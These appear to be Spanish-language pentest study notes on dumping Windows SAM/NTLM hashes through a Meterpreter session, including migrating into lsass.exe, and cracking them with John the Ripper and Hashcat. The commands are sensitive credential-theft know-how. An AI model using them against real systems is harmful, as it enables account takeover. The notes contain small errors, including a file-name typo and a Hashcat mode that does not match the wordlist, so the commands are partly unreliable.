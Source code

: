 En una sesión de meterpreter con el comando `hashdump` obtenemos los hashes. Este comando saca los hashes de la cache SAM guardada en el proceso lsass.exe por lo que sería buena idea migrar al proceso: `migrate -N lsass.exe`

![[Pasted image 20250304183622.png]]

Copiamos tal cual las lineas 1 y 2 con los hashes respectivos a administrator y bob y los pegamos en un fichero hashes.txt:
![[Pasted image 20250304183720.png]]


## Cracking with john the ripper

Listar formatos disponibles en john the ripper: `john --list=formats`

Crackear con el diccionario por defecto de john:
`john --format=NT hashes.txt`

Crackear especificando diccionario:
`john --format=NT hashes-txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Cracking with Hashcat

`hashcat -m 1000 -a 3 hashes.txt /usr/share/wordlists/rockyou.txt`

-m : el tipo de hash, el 1000 es NTLM
-a : el tipo de ataque , 3 es fuerza bruta.